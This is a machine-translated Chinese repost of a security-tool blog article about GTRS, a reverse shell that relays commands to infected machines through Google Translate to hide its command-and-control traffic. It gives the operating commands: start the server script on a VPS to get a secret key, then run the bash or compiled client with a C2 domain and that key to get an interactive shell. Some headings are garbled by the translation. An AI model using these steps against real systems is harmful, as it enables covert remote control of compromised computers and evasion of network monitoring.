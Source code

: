 # GTRS–谷歌翻译反向外壳 2018

> 原文：<https://kalilinuxtutorials.com/gtrs-google-translator-reverse-shell/>

GTRS tools 使用 [Google Translator](https://translate.google.com/) 作为代理向受感染的机器发送任意命令。

```
`[INFECTED MACHINE] ==HTTPS==> [GOOGLE TRANSLATE] ==HTTP==> [C2]` 
```

## **GTRS 环境配置**

首先你需要一个 VPS 和一个域名

## **GTRS 服务器**

在 VPS 上启动 server.py

```
python2.7 server.py
Server running on port: 80
Secret Key: e294a11e-bb6f-49ed-b03a-9ec42be55062
```

它将为您提供将在客户端使用的密钥。

**也读作[Mcreator——编码反向外壳生成器，具有绕过 AV 的](https://kalilinuxtutorials.com/mcreator-encoded-reverse-shell-generator/)** 的技术

## **客户狂欢**

在能够访问 [Google Translator](https://translate.google.com/) 的计算机上运行客户端，提供域和服务器生成的密钥。

```
bash client.sh www.c2server.ml e294a11e-bb6f-49ed-b03a-9ec42be55062
```

现在你有了一个使用命名管道文件的交互式外壳，**是的**你可以`cd`进入目录。

## **客户端运行**

您首先需要下载或编译二进制文件，然后这个过程相当于 bash 客户端，

```
./client_Linux www.c2server.ml e294a11e-bb6f-49ed-b03a-9ec42be55062
```

有了这个客户端，你可以在 Linux、Mac 和 Windows 上运行它，但是客户端还没有交互式外壳。

## **视频教程**

[https://www.youtube.com/embed/02CFsE0k96E?feature=oembed](https://www.youtube.com/embed/02CFsE0k96E?feature=oembed)

[![](img//d861a9096555aeb1980fc054015933d7.png) ](https://github.com/mthbernardes/GTRS) ** *您可以在 [Linkedin](https://www.linkedin.com/company/gbhackers/) 、 [Twitter](https://twitter.com/GbhackerOn) 、[脸书](https://www.facebook.com/gbhackersadmin)上关注我们的日常网络安全更新，您还可以在线参加[最佳网络安全课程](https://ethicalhackersacademy.com/)以保持自我更新。***